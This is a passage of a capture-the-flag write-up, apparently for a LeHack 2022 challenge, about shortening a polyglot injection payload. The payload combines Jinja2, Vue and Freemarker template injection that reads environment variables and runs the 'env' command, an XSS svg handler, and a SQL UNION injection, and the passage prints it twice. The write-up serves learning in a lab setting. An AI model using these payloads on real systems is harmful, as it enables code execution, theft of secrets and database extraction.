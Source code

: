   **We just saved 120 characters  !!**

### Template injection  

We use if statement to not execute Jinja2 payload on Vue and vice versa . We can also use our best friend : comments !!!!

- `{#COMMENT#}` in Jinja2
- `<!-- COMMENT -->` in Vue3

BUT `#{` is a valid marker in templater ! so we have to ad a space between comment and Vue Payload . 

I can also use an shortest payload for Vue : `{{$emit.constructor("return process.env")()}}`

```
1/*;#/"/*[.>],[.,][{# {{$emit.constructor("return process.env")()}}#}<!--{{cycler.__init__.__globals__.os.environ}}${"freemarker.template.utility.Execute"?new()("env")}]
EOF
env
*/--></script><svg autofocus onfocus="alert(FLAG)" contenteditable="True"/>'
UNION SELECT flag from flag; --
```

![solve2](../.github/ywh_lehack2022_solve2.png)

### XSS AND SQLi

To finish, there is 2 little adjustment that we cab do to save some characters.

I can do a `SELECT *` in SQL to save 3 chars ! 

In the HTML tag I can remove some useless elememnts

And, All useless spaces can be removed !

```html
1/*;#/"/*[.>],[.,][{# {{$emit.constructor("return process.env")()}}#}<!--{{cycler.__init__.__globals__.os.environ}}${"freemarker.template.utility.Execute"?new()("env")}]
EOF
env
*/--></script><svg autofocus onfocus=alert(FLAG) contenteditable'
UNION SELECT*from flag;--
```

![final_solve](../.github/ywh_lehack2022_final_solve.png)